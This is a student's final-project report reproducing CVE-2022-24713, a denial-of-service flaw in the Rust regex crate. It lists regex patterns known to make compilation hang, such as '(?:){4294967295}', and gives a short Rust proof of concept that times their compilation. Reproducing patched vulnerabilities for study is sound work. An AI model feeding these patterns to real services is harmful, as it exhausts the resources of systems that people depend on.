 # Final Project – Report <br>CVE-2022-24713

311551093 資科工一 游庭瑋

## Introduction

This CVE pertains to the `regex` crate in the Rust language, which provides an implementation of regular expressions. While the `regex` crate has built-in measures to prevent DOS attacks from untrusted regexes or input, a bug exists that causes a long delay in checking if a regex is untrusted. This bug can be exploited to perform a DOS attack. Versions 1.5.4 and earlier are affected by this issue.

## CVE environment

We use Rust docker image as our environment and install `regex=1.5.4` as our test `regex` crate inside the container. Below is the complete environment. 

* Ubuntu 22.04
* Docker 23.01
* Rust image, tag=`1-bullseye`
* regex 1.5.4

## Preparation to reproduce the exploitation

The vulnerability in `Rust` arises during the compilation of certain specific regular expressions. The initial step is to identify the code causing the issue. The `regex` crate's GitHub repository contains the commit history and unit tests, which can be used to replicate the vulnerability.

### Git Commit: security: fix denial-of-service bug in compiler

According to the developers on the `rust-lang/regex` GitHub page, commit `ae70b41d4f46641dbc45c7a4f87954aea356283e`, the previous implementation did not allocate any memory for empty sub-expressions during compilation, which prevented the pre-existing mechanism from being triggered. As a result, the pattern would continue to compile until it succeeded, which could take a significant amount of time.

The page also includes a list of patterns that are known to take a long time to compile, which are as follows:

* `(?:){4294967295}`
* `(?:){64}{64}{64}{64}{64}{64}`
* `x{0}{4294967295}`
* `(?:|){4294967295}`

## Code part

### Files

There is a complete rust project in the `code` folder, called `regex-cve`. the main file is `main.rs`, which contain all code to reproduce the vulnerability. In `Cargo.toml`, a specific `regex` crate version is set. You can use `cargo` to run this project.

### Explaination

To reproduce the vulnerability, I wrote some simple Rust code that uses the `regex` crate and compiles the aforementioned "special" regular expression pattern. Additionally, I used the `std::time` crate to measure the time it takes to compile that pattern.

```rust
use regex::Regex;
use std::time::Instant;

fn main() {
    let now = Instant::now();
    let s = "(?:){4294967295}";
    let re = Regex::new(s).unwrap();
    println!("Compile Finished! Compile takes {:?} seconds", now.elapsed());
    println!("match result: {}", re.is_match(" "));
}
```

The first two lines indicate that the program will be using the `regex` and `std::time` crates. In the `main` function, a variable named `now` is created to record the start time of compilation. Next, the regular expression is compiled using the `Regex::new(s)` method. Once the pattern has been compiled, the `println!` macro is called to display the time taken for compilation, as well as to test whether `match` works properly.